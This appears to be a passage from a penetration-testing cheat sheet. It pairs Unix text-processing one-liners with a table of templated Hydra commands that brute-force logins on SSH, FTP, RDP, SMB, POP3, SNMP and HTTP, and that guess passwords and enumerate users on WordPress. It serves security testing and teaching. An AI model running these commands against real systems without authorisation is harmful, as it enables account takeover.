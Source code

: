 `# export alias sort='sort --parallel=<number_of_cpu_cores> -S <amount_of_memory>G ' && export LC_ALL='C' && cat file.txt | sort -u > new-file.txt`

### Mac to unix

`# tr '\015' '\012' < in_file > out_file`

### Dos to Unix

`# dos2unix file.txt`

### Unix to Dos

`# unix2dos file.txt`

### Remove from one file what is in another file

`# grep -F -v -f file1.txt -w file2.txt > file3.txt`

### Isolate specific line numbers with sed

`# sed -n '1,100p' test.file > file.out`

### Create Wordlists from PDF files

`# pdftotext file.pdf file.txt`

### Find the line number of a string inside a file

`# awk '{ print NR, $0 }' file.txt | grep "string-to-grep"`

## Password Cracking

https://github.com/frizb/

An amazing index of brute-force commands

```text
https://book.hacktricks.xyz/brute-force
```

## Hydra <a id="hydra"></a>

Below are a few scriptable examples of common protocols to brute force logins.

| Command | Description |
| :--- | :--- |
| `hydra -P $pass_list -v $ip snmp -vV` | Brute force against SNMP |
| `hydra -t 1 -l $user -P $pass_list -vV $ip ftp` | FTP with  known user using password list |
| `hydra -vV -u -L $users_list -P $pass_list -t 1 -u $ip ssh` | SSH using list of users and passwords |
| `hydra -vV -u -L $users_list -p $pass -t 1 -u $ip ssh` | SSH with a known password and a username list |
| `hydra -vV $ip -s $port ssh -l $user -P $pass_list` | SSH with known username on non-standard port |
| `hydra -vV -l $user -P $pass_list -f $ip pop3` | POP3 Brute Force |
| `hydra -vV -L $users_list -P $pass_list $ip http-get $login_page` | HTTP GET with user and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list rdp://$ip` | Windows Remote Desktop with pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list $ip smb` | SMB brute force with known user and pass list |
| `hydra -vV -l $user -P $pass_list $ip http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | WordPress brute force an admin login |
| `hydra -vV -L $users_list -p $pass $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'` | WordPress enumerate users |